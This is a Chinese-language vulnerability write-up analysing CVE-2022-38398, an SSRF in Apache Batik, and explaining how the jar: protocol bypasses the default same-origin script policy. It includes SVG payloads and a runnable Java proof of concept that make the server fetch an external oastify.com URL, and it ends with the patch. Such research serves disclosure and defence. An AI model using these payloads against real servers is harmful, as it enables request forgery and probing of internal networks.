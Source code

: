 # CVE-2022-38398 Apache XML Graphics Batik SSRF
## 影响版本
< 1.15
## 环境搭建
https://xmlgraphics.apache.org/batik/download.html
## 原理分析
### Apache Batik 安全沙箱
Apache Batik库可以处理svg格式的文件并将其转换为其它图片格式(jpg,jpeg,...).
而svg文件中的图片是可以通过xlink标签从指定外部地址加载资源的,这就很容易造成ssrf漏洞.  
```svg
<image width="50" height="50" xlink:href="http://3fj8qpfpj9qcw00noj82rd021t7jv8.oastify.com/1.jpg/"></image>
```  
而在Apache Batik中也有对应的安全沙盒来控制svg文件中的脚本执行.  
https://xmlgraphics.apache.org/batik/using/scripting/security.html  
主要有以下四种情况:
* NoLoadScriptSecurity : 禁止执行任何脚本.
* EmbededScriptSecurity :  文档中嵌入的脚本在被适当引用时可以执行.
* DefaultScriptSecurity(默认情况) : 如果嵌入的脚本来源和引用脚本的文档是同一个来源时可以执行.
* RelaxedScriptSecurity : 任意脚本都可以执行
### 默认策略绕过
在默认情况下,只有同源的脚本才能被执行,比如以下几种情况:
1. 加载本地的svg文件时,只能加载在路径在本地的脚本,不能加载远程地址的脚本.
2. 通过http路径加载svg文件时,也只能加载同一个host服务器上的脚本.  

在`package org.apache.batik.bridge.DefaultScriptSecurity`可以看到其实现的原理.   
![](2022-11-02-16-43-03.png)  
当脚本路径为本地文件时,比如`file:///tmp/1.jpg`,其获得的host则为null.  
![](2022-11-02-18-00-31.png)  
同样的从InputStream流创建的docurl的Host也是null.  
看起来这样即限制了只能同源脚本的执行.  
但是在java中还有一种协议`jar`,jar协议可以用来建立一个访问其它路径jar包的连接.  
![](2022-11-02-18-05-42.png)  
可以发现jar协议的URI路径获得的host也为null,这就导致docurl和scripturl的host都为null,也就是说我们可以绕过同源的限制,利用jar协议去请求任意地址.
## 漏洞复现
jar协议格式:  
jar协议的格式如：jar:{archive-url}!/{entry}。 
archive-url是文件地址  
!/是分隔符  
entry是jar包内部的目录或者文件  

poc:
```java
import org.apache.batik.transcoder.TranscoderException;
import org.apache.batik.transcoder.TranscoderInput;
import org.apache.batik.transcoder.TranscoderOutput;
import org.apache.batik.transcoder.image.JPEGTranscoder;

import java.io.*;

public class cve_2022_38398 {
    public static void main(String[] args) throws IOException, TranscoderException {
        String svg = "<svg xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" width=\"450\" height=\"500\" viewBox=\"0 0 450 500\">\n" +
                "    <image width=\"50\" height=\"50\" xlink:href=\"jar:http://gbvj631zwa8yh8ch6y0w2uxxiooec3.oastify.com/poc?poc=cve_2022_38398!/\"></image>\n" +
                "</svg>";
        JPEGTranscoder t = new JPEGTranscoder();
        byte[] svgbytes = svg.getBytes();
        TranscoderInput input = new TranscoderInput(new ByteArrayInputStream(svgbytes));
        OutputStream outputStream = new FileOutputStream("test.jpg");
        TranscoderOutput transcoderOutput = new TranscoderOutput(outputStream);
        t.transcode(input,transcoderOutput);
        outputStream.flush();
        outputStream.close();

    }
}
```
![](2022-11-02-18-11-34.png)
## 补丁  
校验了协议只能为data.  
![](2022-11-02-18-40-37.png)
## 参考资料
https://www.zerodayinitiative.com/blog/2022/10/28/vulnerabilities-in-apache-batik-default-security-controls-ssrf-and-rce-through-remote-class-loading
